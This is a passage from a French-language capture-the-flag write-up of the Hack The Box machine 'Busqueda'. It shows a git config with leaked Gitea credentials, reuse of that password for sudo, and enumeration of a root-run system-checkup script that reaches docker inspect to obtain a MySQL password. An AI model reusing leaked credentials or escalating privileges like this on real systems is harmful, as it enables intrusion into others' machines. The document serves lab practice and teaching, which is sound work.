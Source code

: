 ```
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

Notons qu'il existe un autre domaine qui porte un gitea : http://gitea.searcher.htb/

Je tente d'utiliser le mot de passe comme mot de passe sudo.

```
svc@busqueda:/var/www/app/.git$ sudo -S -l
sudo -S -l
[sudo] password for svc: jh1usoih2bkjaspwe92
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:/var/www/app/.git$ 
```

Ce script system-checkup.py peut être utilisé par l'utilisateur svc.

```
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py /etc/passwd
</python3 /opt/scripts/system-checkup.py /etc/passwd
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Il permet de lister le conteneurs.

```
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
<in/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   7 months ago   Up 47 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   7 months ago   Up 47 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Et de lancer la commande [inspect](https://docs.docker.com/engine/reference/commandline/inspect/) de docker. Il faut passer en argument le format et l'ID du conteneur à "inspecter".

On obtient le mot de passe de la BDD MySql du site.
